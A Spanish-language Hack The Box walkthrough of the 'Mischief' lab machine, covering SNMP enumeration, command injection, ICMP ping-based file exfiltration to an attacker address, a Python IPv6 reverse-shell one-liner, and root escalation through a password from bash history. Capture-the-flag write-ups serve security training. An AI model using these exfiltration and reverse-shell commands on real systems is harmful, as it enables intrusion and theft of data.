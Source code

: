 ```yaml
---
layout: single
title: Mischief - Hack The Box
excerpt: "Mischief fue uno de los cuadros de 50 puntos más fáciles, pero aun así brindó muchas oportunidades para enumerar cosas y obligó al atacante a pensar y trabajar con IPv6, que es algo que probablemente no sea algo natural para la mayoría de nosotros. Usarémmos snmp para obtener tanto la dirección IPv6 del host como las credenciales del servidor web. A partir de ahí, puedo usar esas credenciales para iniciar sesión y obtener más credenciales. Las otras credenciales funcionan en un sitio web alojado solo en IPv6. Ese sitio tiene inyección de comandos, lo que me da ejecución de código, un shell como www-data y créditos para loki. El historial de bash de loki me da la contraseña de root."

date: 2022-09-30
classes: wide
header:
  teaser: /assets/images/htb-writeup-mischief/mischief_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - cxdxnt
tags:  
  - icmp data exfiltration
  - command-injection
  - ipv6 
  - snmp
---
```


## Reconocimiento
Empezamos con un simple nmap.

```bash

Starting Nmap 7.70 ( https://nmap.org ) at 2022-09-29 01:10 -03
Nmap scan report for 10.10.10.92
Host is up (0.099s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2a:90:a6:b1:e6:33:85:07:15:b2:ee:a7:b9:46:77:52 (RSA)
|   256 d0:d7:00:7c:3b:b0:a6:32:b2:29:17:8d:69:a6:84:3f (ECDSA)
|_  256 3f:1c:77:93:5c:c0:6c:ea:26:f4:bb:6c:59:e9:7c:b0 (ED25519)
3366/tcp open  caldav  Radicale calendar and contacts server (Python BaseHTTPServer)
| http-auth:
| HTTP/1.0 401 Unauthorized\x0D
|_  Basic realm=Test
|_http-server-header: SimpleHTTP/0.6 Python/2.7.15rc1
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.94 seconds

```
En el puerto 3366 nos encontramos un panel login, que por ahora la contraseña desconocemos cuál es. Entonces procedemos a hacer una enumeración por puertos udp.Y notamos que el puerto 161 esta abierto.

```ruby

nmap -sU --top-port 50 --open 10.10.10.92 -v -T5 | grep -v "filtered"
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-29 01:10 -03
Initiating Ping Scan at 01:10
Scanning 10.10.10.92 [4 ports]
Completed Ping Scan at 01:10, 0.26s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 01:10
Completed Parallel DNS resolution of 1 host. at 01:10, 0.02s elapsed
Initiating UDP Scan at 01:10
Scanning 10.10.10.92 [50 ports]
Discovered open port 161/udp on 10.10.10.92
Completed UDP Scan at 01:10, 2.47s elapsed (50 total ports)
Nmap scan report for 10.10.10.92
Host is up (0.24s latency).

PORT      STATE         SERVICE
161/udp   open          snmp

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.90 seconds
           Raw packets sent: 126 (8.082KB) | Rcvd: 5 (610B)
```
Gracias a snmp logramos extraer la ipv6 de la máquina, que nos sirve para ver otros puertos diferentes.


```bash
snmpbulkwalk -c public -v2c 10.10.10.92  1 IP-MIB::ipAddressTable
```

![](/assets/images/htb-writeup-mischief/ipv6.png)

La arreglamos y quedaría así.

```
dead:beef:0000:0000:0250:56ff:feb9:fcc0
```
Ahora enumeramos puertos por ipv6

```bash
 nmap -6 -sCV -p22,80 dead:beef:0000:0000:0250:56ff:feb9:fcc0 -oN targetedIpv6
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-29 01:20 -03
Nmap scan report for dead:beef::250:56ff:feb9:fcc0
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2a:90:a6:b1:e6:33:85:07:15:b2:ee:a7:b9:46:77:52 (RSA)
|   256 d0:d7:00:7c:3b:b0:a6:32:b2:29:17:8d:69:a6:84:3f (ECDSA)
|_  256 3f:1c:77:93:5c:c0:6c:ea:26:f4:bb:6c:59:e9:7c:b0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: 400 Bad Request
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| address-info: 
|   IPv6 EUI-64: 
|     MAC address: 
|       address: 00:50:56:b9:fc:c0
|_      manuf: VMware

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.01 seconds
```

En el puerto 80 podemos ver otro panel login.

![](/assets/images/htb-writeup-mischief/login.png)

```ruby

admin: admin
admin : password
administrator : administrator
administrator : password
admin : mischief 
administrator : mischief 
admin' and sleep(5)-- - : pass
admin' or sleep(5)-- - : pass
administrator ' and sleep(5)-- - : pass
administrator' or sleep(5)-- - : pass
```
Probamos credenciales tipicas. Y no logramos nada.Por lo que regresamos a snmmp.Extraemos informacion mas profunda de los procesos corriendo con el siguiente comando.

```bash
snmptable -v2c -Ci -c public 10.10.10.92  HOST-RESOURCES-MIB::hrSWRunTable
```
![](/assets/images/htb-writeup-mischief/proceso.png)

Dichas credenciales nos sirve para iniciar session en http://10.10.10.92:3306

![](/assets/images/htb-writeup-mischief/passwords.png)

Las credenciales que se nos representan las probamos en el panel login de ipv6 y logramos acceder.
```
administrator:trickeryanddeceit
```
![](/assets/images/htb-writeup-mischief/commands.png)

Una vez dentro nos dicen que en el directorio loki hay un credentials.txt, como no podemos leer archivos no las ingeniamos de la siguiente manera.Para poder leer archivos de la maquina vamos a usar ping,
con el parametro ```-p``` podemos mandar una cadena en hex entonces lo que hacemos es lo siguiente.


representa el archivo en hex en 4 por 4 


```bash
xxd -p -c 4 /etc/hosts
```
Luego mediante un chico script en bash, lo enviamos de apoco a poco.

```
xxd -p -c 4 /etc/hosts|while read line;do ping -c 1 -p $line 10.10.14.14;done
```

Nos creamos un script en python para extraer e pasear la información y hacerla más legible.

```python
from scapy.all import *
def data_sniff(packet):
    if packet.haslayer(ICMP):
        if packet[ICMP].type == 8:
            data =packet[ICMP].load[-4:]
            decode = str(data,'utf-8')
            print(decode,end='', flush=True)


if __name__ == '__main__':
    sniff(iface="tun0", prn=data_sniff)
```
Nos creamos otro script en python para ejecutar comandos y hacerlo todo mas comodo.

```python
from scapy.all import *
import requests

if __name__ == '__main__':
        #sniff(iface="tun0", prn=data_sniff)
        while True:
            read_file = input('cmd_>')
            data_post = {'command':read_file}
            main_url = 'http://mischief.htb/'
            cookies = {'PHPSESSID': 'nt89hn5mar8eht8jgm802iqsfd'}
            requests.post(main_url,data=data_post,cookies=cookies)

```



<video src="/assets/images/htb-writeup-mischief/read-file.mp4" controls="controls" style="max-width: 730px;">
</video>

Ahora extraemos las credenciales.

![](/assets/images/htb-writeup-mischief/leer-credenciales.png)

La escalada de privilegios me tomo bastante tiempo, pero la verdad no era nada complicado.En el bash_history de loki vemos una contraseña.Vemos si con dicha contraseña nos deja acceder a root, pero misteriosa mente nuestro usuario no tiene los privilegios para ejecutarlo.

![](/assets/images/htb-writeup-mischief/contraseña-de-root.png)

![](/assets/images/htb-writeup-mischief/permisos.png)


Mediante la inyección de comandos que tenemos procedemos a crearnos una reverse shell por ipv6


```python

python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::100c",443,0,2));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
Una vez como www-data probamos dicha contraseña para el usuario root.

```bash
www-data@Mischief:/var/www/html$ su root
Password: lokipasswordmischieftrickery
root@Mischief:/var/www/html# cat /root/root.txt 
The flag is not here, get a shell to find it!
root@Mischief:/var/www/html# find / -name root.txt 2>/dev/null |xargs cat 
ae155fad479c56f912c65d7be4487807
The flag is not here, get a shell to find it!
root@Mischief:/var/www/html# 
```
